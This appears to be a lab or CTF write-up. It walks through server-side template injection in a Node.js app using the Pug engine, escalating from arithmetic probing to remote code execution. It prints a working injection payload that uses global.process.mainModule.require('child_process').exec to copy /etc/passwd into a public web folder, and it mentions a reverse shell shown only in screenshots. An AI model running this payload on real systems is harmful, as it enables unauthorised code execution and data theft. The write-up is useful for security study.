# Template Engine Attack

## Template Engine Attack

* First try a basic XSS on the direct message 



* From Burp History request :



Server Reply :



* Try to evaluate using simple arithmetic equation \(using 9\*9\) and check if the request is interpreted or not.  It was NOT \(didn't get 81\)



* In that particular case, we need to use the Pug functionnality to break out the template using a new line \(\n\) and a sign = .

\[new line\]=9\*9

**They both need to be URL encoded :**

```text
\n = %0a
= = %3d
```



We ve got 81 now !

Go for a shell , using child.process.exec function.

We need to find the which function are available trying to enumerate them \(/must be url encoded \):

We are looking for Require which is most probably linked to process and mainModule

• Get the global Object -&gt; \[new line\]=global

Plus %0a at start





* Parsing the global object \(using each iterator\):

  ```text
  each val, index in global
  p=index
  ```





* Try to iterate using index in global.process.WHATEVER : 

Found the require function :



* **Got for RCE using the require field :**

  ```text
  var x = global.process.mainModule.require
  x('child_process').exec('cat /etc/passwd >> /opt/web/chatSupportSystems/public/accounts.txt')
  ```



* Inject





* get a revershe shell :





